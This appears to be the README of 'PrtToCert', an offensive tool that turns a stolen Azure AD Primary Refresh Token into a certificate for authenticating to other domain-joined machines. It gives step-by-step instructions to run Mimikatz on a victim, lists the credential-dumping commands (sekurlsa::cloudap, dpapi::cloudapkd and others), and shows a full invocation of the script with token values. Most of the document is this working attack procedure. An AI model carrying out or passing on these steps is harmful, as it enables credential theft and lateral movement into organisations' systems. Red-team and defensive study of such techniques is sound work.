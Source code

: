 # PrtToCert
Request P2P certificate which valid for 1 hour to authenticate to any Azure AD joined machine.

## Requirements
* Python 2.7, 3.5+
* PyOpenSSL
* python_jwt
* requests

## Usage

```
RequestCert.py [-h] --tenantId TENANTID --prt PRT --userName USERNAME --hexCtx HEXCTX --hexDerivedKey
                      HEXDERIVEDKEY
```

## Steps
* Run Mimikatz on the victim and store the PRT, tenantId, Identity and keyValue
* Run Mimikatz again with keyvalue and any context you want and create derived key
* Run the script with PRT, tenantId, Identity, context and derived key
* Generate P2P certificate from any computer as long as the PRT valid

## Example
```
Mimikatz:
  privilege::debug
  sekurlsa::cloudap
  token::elevate
  dpapi::cloudapkd
  
python RequestCert.py --tenantId 2c240ecc-...truncated --prt QVFBQkFBQUFBQUFHVl9idjIxb1FRNFJPcWgwXzEtdEFnbm9IbkFCZkgxcG1zbFFERENFY195OXFMTEF5bDhpZ3FrQ1RZa0dTdElqa3pGcXZ5...truncated --userName Gadmin@ResearchAadLabEnv.onmicrosoft.com --hexCtx e096b37dc0d8e5cde438...truncated --hexDerivedKey b8a39c7b3b7e7c859b...truncated
```
